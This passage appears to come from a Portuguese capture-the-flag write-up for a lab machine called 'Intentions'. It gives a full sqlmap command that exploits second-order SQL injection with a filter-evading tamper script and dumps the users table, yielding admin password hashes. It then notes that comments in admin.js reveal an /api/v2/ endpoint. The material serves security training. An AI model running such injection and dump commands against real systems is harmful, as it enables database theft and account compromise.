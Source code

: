 ## sqlmap

Podemos automatizar com sqlmap, devemos salvar a requisição da pagina **genres** e **feed**, a seguir informamos isso para o sqlmap, vai ser da seguinte forma:

```bash
sqlmap -r genres.req -p genres --second-req feed.req --tamper=space2comment --batch --level=5 --risk=3 -D intentions -T users --dump
```

Como resposta temos duas hash de usuários admin.

![image](/assets/img/post/intentions/13.png)

## Exploitation

Antes de prosseguir para logar com o usuário steve, vamos analisar o arquivo **admin.js** que encontramos lá no inicio do nosso recon. 
Alguns comentários com informações importantes.

![image](/assets/img/post/intentions/14.png)

Até então tínhamos o conhecimento do endpoint **/api/v1/**, segundo o comentário acima vemos que existe **/api/v2/**.
